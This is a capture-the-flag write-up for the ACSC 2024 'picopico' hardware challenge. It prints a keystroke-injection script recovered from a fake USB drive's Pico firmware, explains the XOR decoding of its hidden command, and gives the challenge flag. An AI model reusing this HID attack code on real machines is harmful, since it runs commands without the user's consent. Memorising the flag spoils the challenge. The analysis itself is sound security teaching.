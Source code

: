 ---
title: 'picopico [HW]'
description: 'My solutions for the Asian Cyber Security Challenge held in 2024.'
date: 2024-03-31
authors: ['br34d']
order: 1
---


<div class="invisible h-0! [&+*]:mt-0 [&+*_*]:mt-0">
## picopico [HW]
</div>

### Challenge description
<Challenge
  title="picopico"
  authors={['op']}
  category="hardware"
  flag="ACSC{349040c16c36fbba8c484b289e0dae6f}"
>
Security personnel in our company have spotted a suspicious USB flash drive. They found a Raspberry Pi Pico board inside the case, but no flash drive board. Here's the firmware dump of the Raspberry Pi Pico board. Could you figure out what this 'USB flash drive' is for?
</Challenge>

### Solution

#### Analyzing the firmware
Performing a simple `strings` on the provided `firmware.bin` reveals some interesting Python code:

```ansi
[0;33m$[0m strings firmware.bin
...
import time
L=len
o=bytes
l=zip
import microcontroller
import usb_hid
from adafruit_hid.keyboard import Keyboard
from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
from adafruit_hid.keycode import Keycode
w=b"\x10\x53\x7f\x2b"
a=0x04
K=43
if microcontroller.nvm[0:L(w)]!=w:
 microcontroller.nvm[0:L(w)]=w
 O=microcontroller.nvm[a:a+K]
 h=microcontroller.nvm[a+K:a+K+K]
 F=o((kb^fb for kb,fb in l(O,h))).decode("ascii")
 S=Keyboard(usb_hid.devices)
 C=KeyboardLayoutUS(S)
 time.sleep(0.1)
 S.press(Keycode.WINDOWS,Keycode.R)
 time.sleep(0.1)
 S.release_all()
 time.sleep(1)
 C.write("cmd",delay=0.1)
 time.sleep(0.1)
 S.press(Keycode.ENTER)
 time.sleep(0.1)
 S.release_all()
 time.sleep(1)
 C.write(F,delay=0.1)
 time.sleep(0.1)
 S.press(Keycode.ENTER)
 time.sleep(0.1)
 S.release_all()
time.sleep(0xFFFFFFFF)
...
```

This python code seems like a Rubber Ducky script that performs the following actions when the device is plugged in:

```python showLineNumbers=false
Press Win + R -> Types 'cmd' -> Press Enter key -> Type variable F -> Press Enter key
```

#### Finding F

The below code snippet makes up the variable F.

```python showLineNumbers=false
import microcontroller
w=b"\x10\x53\x7f\x2b"
a=0x04
K=43
if microcontroller.nvm[0:L(w)]!=w:
 microcontroller.nvm[0:L(w)]=w
 O=microcontroller.nvm[a:a+K]
 h=microcontroller.nvm[a+K:a+K+K]
 F=bytes((kb^fb for kb,fb in zip(O,h))).decode("ascii")
```

Taking a look at the documentation for [microcontroller.nvm](https://docs.circuitpython.org/en/latest/shared-bindings/nvm/index.html), we can see that it return a part of the non-volatile memory as a bytearray. And, we can get the bytes that make up the NVM from the extracted firmware that was given to us. 

So, simply searching up for "10 53 7f 2b" in the firmwares hexdump, we get the bytes we're looking for.
![](./assets/pico-1.png)

#### solve.py

```python showLineNumbers=false
j = b'\x10\x53\x7f\x2b\x41\xa0\x71\x51\x9f\xca\xfd\x84\x35\x0a\xd2\xb0\x1e\xa8\xa9\xb7\x10\x1f\x55\x7a\x8c\x98\xb2\x69\xef\x92\xc5\x15\xd0\x4b\xff\x87\x17\x63\xe4\x62\xc6\xa5\xb2\xbc\x8e\xef\xd8\x24\xc3\x19\x3e\xbf\x8b\xbe\xd7\x76\x71\xe1\x84\x27\x98\x9d\x87\x73\x2e\x63\x19\xbf\xae\xd4\x0b\x8d\xf3\xfd\x76\xe4\x73\xcb\xe5\x25\x5b\xdd\x07\xf6\xc1\xd3\xd9\xb8\x89\xa5'

k = j[4:47]
l = j[47:90]

F = bytes((kb^fb for kb,fb in zip(k,l))).decode("ascii")

print(F)
```
